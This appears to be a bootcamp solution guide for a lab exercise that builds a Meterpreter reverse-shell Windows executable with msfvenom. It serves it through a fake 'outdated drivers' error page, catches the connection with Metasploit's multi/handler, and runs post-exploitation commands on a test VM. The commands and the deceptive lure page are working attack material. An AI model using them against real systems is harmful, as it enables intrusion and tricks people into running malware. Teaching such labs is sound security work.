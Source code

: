 ## Solution Guide: Creating Custom Payloads

The goal of this activity was to craft customized payload options and understand how criminal hackers use them to bypass security controls.

---

### In the Kali Machine

1. For this attack, you will craft a custom malicious payload.

   Using `msfvenom`, craft a malicious executable with the following criteria:

      - Creates a `reverse_tcp` session using Meterpreter.
     
      - Payload is designed to exploit any Windows platform in general.

      - The file type is EXE.

      - Saves the output file to the `/var/www/html/` directory.

      - The local host is the attacking machine's IP address (Kali Linux).

      - The local port is `4444`.

      - Has the name `drivers.exe`.

   After you craft the payload, run the command to create it.  

    - **Solution**: `msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=192.168.0.8 LPORT=4444 -o /var/www/html/drivers.exe`
        
    ![MSV 5](Images/MSV_5.png)

2. To begin, create a backup of the index.html file that is located in the `/var/www/html/` directory without overwriting its current contents:

   -  Run the following commands:
   ​
      - `cp /var/www/html/index.html /var/www/html/index.html.bak`

         - This command backs up the original `index.html` without overwriting it.
   ​
      - `ls /var/www/html/`
         - This lists the contents of the `/var/www/html/` directory to verify that you have both the `index.html` and `index.html.bak` files. 


3. Build the malicious code into the webpage. The HTML code is provided below. You will need to edit the `/var/www/html/index.html` file with the name of your executable `drivers.exe`.

   - Use Nano to edit the `index.html` file:

      - Run `nano /var/www/html/index.html`

  - Edit the following code into the file and change the name of your executable in the HTML code from `sample.exe` to `drivers.exe`:
​ 
   ```html
   <html>
   <head>
      <title>Error 405: Unable to…</title>
   </>
   <body>
      <h1>Error 405: Unable to browse the web.</h1>
      <hr>
      <h3>Your drivers seem to be outdated and are not secure anymore. To resolve this issue and access the internet again you need to update your drivers.</h3>
      <br>
      <h3>Click <a href=sample.exe>here</a> to download and install the required drivers.</h3>
   </body>
   </html>
   ```
      
![MSV 1](Images/MSF_ACT_1.png)

View the `index.html` file to verify it contains `drivers.exe`. 
- Run: `cat /var/www/html/index.html`

![MSV 2](Images/MSF_ACT_2.png)

4. Now that we have our website staged, restart the Apache2 service to get it up and running:

   - You will need to restart the service every time you make a change to this file. 
  
   - Restart the Apache2 web server.

      - **Solution**: Run `service apache2 restart`

5. Launch the Metasploit Framework. 

     -  **Solution**: Run `msfconsole`

      We are now presented with the `msfconsole` prompt.

     ![MSV 3](Images/MSF_ACT_3.png)

6. Test the malicious website to ensure it's working properly. Launch a web browser and navigate to the localhost:
​
   - Type the following into the URL: `127.0.0.1`
​
   - The webpage should launch with the headline: **Error 405: Unable to browse the web.**
​
   - This indicates our website is online and ready for action.

   - Note that while the website shows an error, the page contains the malicious link that unsuspecting visitors are encouraged to click.

​
    ![MSV 4](Images/MSF_ACT_4.png)

7. Now we will configure the setting for the listener. Return to the terminal. Run the series of commands that will accomplish the following tasks and then run the exploit.

    **Solutions:**

   -  Uses the `exploit/multi/handler` module:

      - `use exploit/multi/handler`

   - Sets the payload to `windows/meterpreter/reverse_tcp`:

     - `set PAYLOAD windows/meterpreter/reverse_tcp`

   - Sets the local host to the IP of Kali Linux:

     - `set LHOST 192.168.0.8`

         (`192.168.0.8` is the IP of Kali.)

   -  Sets the local port to `4444`:

      - `set LPORT 4444`

   - Verifies that the settings took effect:

     - `show options`

   - Runs the exploit:

     - `exploit` or `run`

     ![MSV 5](Images/MSF_ACT_5.png)
### In the DVW10 Windows Machine

8. Launch the DVW10 VM and open the web browser.

    Type the IP address of the Kali Linux machine in the URL.

    - **Solution:** `192.168.0.8` 

   - You will get a series of error messages. For both prompts, select **Run**.
    
​
    ![MSV 6](Images/MSF_ACT_6.png)

  This step delivered the payload to the victim's machine. We can now return to our attacking machine and perform some post-exploitation.   


### In the Kali Machine

9. Return to the Kali machine and perform some post-exploitation commands. 

   **Solutions:**

   - Run the command that generates a Windows command prompt:

     -  `shell`

   - Run the command that returns network shares:

     - `net share`

   - Run the command that returns all users on the DVW10 system:

     - `net users`

     ![MSV 7](Images/MSF_ACT_7.png)

____

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
